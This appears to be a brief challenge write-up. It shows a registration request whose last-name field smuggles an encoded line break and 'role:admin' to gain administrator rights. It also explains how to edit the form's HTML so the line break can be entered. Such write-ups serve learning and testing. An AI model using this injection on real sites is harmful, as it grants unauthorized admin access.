 Form has a similar request body

> user=usernn&password=qwerty&lname=lname%0D%0Arole%3Aadmin&email=aaa%40mail.com&register=Register

for this need to change html-code

`<textarea type="text" id="lname" value="" class="form-control" name="lname" required="">`

and fill last name field like this

>lname
>role:admin

then just log in and challenge complite